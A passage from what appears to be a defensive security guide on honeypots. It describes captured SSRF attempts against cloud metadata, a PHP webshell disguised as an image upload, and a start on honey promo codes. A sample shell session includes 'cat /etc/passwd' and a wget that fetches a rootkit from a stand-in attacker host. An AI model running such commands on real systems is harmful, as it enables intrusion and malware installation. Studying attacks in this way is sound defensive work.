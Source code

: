 This is attempting to **steal AWS credentials** from metadata service!

**What honeypot captures**:
- ✅ The SSRF payload
- ✅ Attacker understands AWS infrastructure
- ✅ They're targeting cloud credentials

**What you learn**:
- Webhook URL validation is insufficient
- Need to block internal IP ranges
- Attacker is experienced with cloud exploits

### Attack Scenario 3: Malware Upload via "Product Image"

**Attacker uploads** what looks like `product_image.jpg`:
```
POST /api/products/upload_image
Content-Type: image/jpeg

[Binary data that's actually a PHP webshell]
```

**What honeypot captures**:
- ✅ Full malware binary
- ✅ Webshell code and backdoor functionality
- ✅ Attacker's subsequent commands when they access the shell

**Honeypot allows execution** (safely in VM):
```bash
# Attacker thinks they have shell access:
whoami
> www-data

cat /etc/passwd
> [fake but realistic user list]

wget http://attacker-server.com/rootkit.sh
> [captured! malware sample downloaded]
```

**Gold mine of intelligence**:
- Malware sample sent to threat intel team
- C2 server `attacker-server.com` blocked
- Webshell signatures added to scanners
- File upload validation hardened in production

---

## Use Case D: The Honey Promo Code (Insider Threat Detection)

### The Problem You're Solving

**Promo codes are valuable**:
- 50% off codes leaked → revenue loss
- Unlimited use codes exploited → fraud
- Partner codes stolen → relationship damage

